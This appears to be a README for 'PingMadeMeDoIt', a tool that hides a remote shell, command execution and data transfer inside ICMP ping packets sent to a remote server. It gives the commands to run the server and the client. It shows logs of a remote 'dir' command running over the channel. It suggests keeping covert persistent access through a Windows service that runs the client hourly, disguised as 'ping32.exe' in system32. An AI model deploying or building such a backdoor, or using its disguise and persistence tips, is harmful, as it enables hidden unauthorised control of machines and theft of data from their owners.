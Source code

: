 # PingMadeMeDoIt
Mom, ping made me do it ! Use ping to enter shell, execute commands or send data.

Use Ping IMCP 8 to send data, receive data. In our example we implemented a shell, job command and simple plain messaging. All of this in combination with some AES-256 encryption sauce.
Ping client will run as normal ping but if you supply client.exe advanced, it will start the custom ping.

Nowadays this technique is quite known but still it's a nice backup to maintain persistence access to a machine. Maybe combinate this with some windows service which calls our custom ping each 60 minutes, put it in system32\ as ping32.exe ?

<b>run server : python PingMadeMeDoIt.py</b>
server commands : shellstart (start shell), shellexit (exit shell), job: cmd (execute cmd provided and return info), if no command is received default behaviour is to send back reply with the text inputted.

<b>run client : PingMadeMeDoIt.exe advanced x.x.x.x hello</b>

<br>
<b>Server Side..</b>
<br><br>
[root@yourmom ping]# python3.11 PingMadeMeDoIt.py<br>
Listening for ICMP Echo requests...<br>
Enter the response text to send : shellstart<br>
Entered shell mode.<br>
$ dir<br>
result: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>
<br>
 Directory of C:\Users\yourmom\filled<br>
<br>
07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
$ shellexit<br>
Shell mode exited.<br>
<br>
<b>Client Side..</b>
<br><br>
C:\Users\yourmom\filled>PingMadeMeDoIt.exe advanced x.x.x.x good<br>
Custom ICMP Echo Request sent successfully.<br>
IP Address: x.x.x.x<br>
Roundtrip Time: 3777 ms<br>
Time to Live (TTL): 50<br>
Buffer Size: 94 bytes<br>
Buffer Data (Hex): 73 67 48 7A 62 44 4E 4C 4C 69 75 49 36 62 6E 6B 42 71 4F 52 45 41 3D 3D 7C 6B 66 4B 53 38 49 63 70 32 6F 4E 30 30 4A 44 49 6C 43 49 30 43 62 31 6D 4B 6F 42 6F 4D 70 6A 43 55 54 54 59 4C 71 70 6C 69 2F 34 3D 7C 6A 48 34 2F 42 42 70 43 34 4A 31 46 46 37 38 79 74 38 49 63 2B 67 3D 3D<br>
Buffer Data (ASCII): sgHzbDNLLiuI6bnkBqOREA==|kfKS8Icp2oN00JDIlCI0Cb1mKoBoMpjCUTTYLqpli/4=|jH4/BBpC4J1FF78yt8Ic+g==<br>
Received command: dir<br>
Send ping reply: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>

 Directory of C:\Users\yourmom\filled<br>

07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
Received shellexit. Exiting the loop.<br>

